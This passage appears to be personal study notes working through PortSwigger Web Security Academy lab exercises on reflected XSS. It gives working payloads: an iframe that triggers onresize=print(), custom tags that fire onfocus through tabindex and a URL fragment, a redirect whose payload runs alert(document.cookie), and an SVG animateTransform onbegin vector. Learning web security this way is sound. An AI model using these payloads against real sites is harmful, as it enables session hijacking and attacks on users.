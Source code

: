 To do this, we can use the exploit server and use the `<iframe>` tag and resize the iframe, you can only resize something like width or you can resize all to have a full screen iframe.

```html
<iframe src="https://0a4200fe0367bb7380a0c60b000400c7.web-security-academy.net/?search=<body onresize=print()>" onload=this.style="position:fixed;top:0;left:0;width:100vw;height:100vh;border:none;"></iframe>
```

# Reflected XSS into HTML context with all tags blocked except custom ones

In this case the body tag is not available, we can try to add a custom tag and add an event like onfocus:

```html
<tag onfocus=alert(0)>test</tag>
```

But you see that this doesn't work, sometimes you have to indicate that a tag can be focusable, for this have the attribute **tabindex**.

You can select the "tag" or using tha tab key to trigger the alert.
```
<tag onfocus=alert(0) tabindex=1>test</tag>
```

In exploit server we can redirect the user to the victim page and with the id attrbute and the fragment we can focus automatically in the new custom tag.

```html
 <script>
location = 'https://0ae50005038a35a78060032f00230015.web-security-academy.net/?search=<tag id=tag_id onfocus=alert(document.cookie) tabindex=1>#tag_id';
</script>
```

# Reflected XSS with some SVG markup allowed

The lab and the description tell us that some svg tags and events are allowed, we have to use intruder again to bruteforce with the [cheatsheet of PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) like [[❌ XSS#Reflected XSS into HTML context with most tags and attributes blocked]].

We finally found this combination of tags and attribute to trigger the alert.
```html
<svg><animateTransform onbegin=alert(0)>
```

# Reflected XSS in canonical link tag

This is a SEO(Search Engine Optimization) tag, normally ubicated inside the head tag.

This tell to the engine searchs that the web can be accessible by differents url, the main url is this:
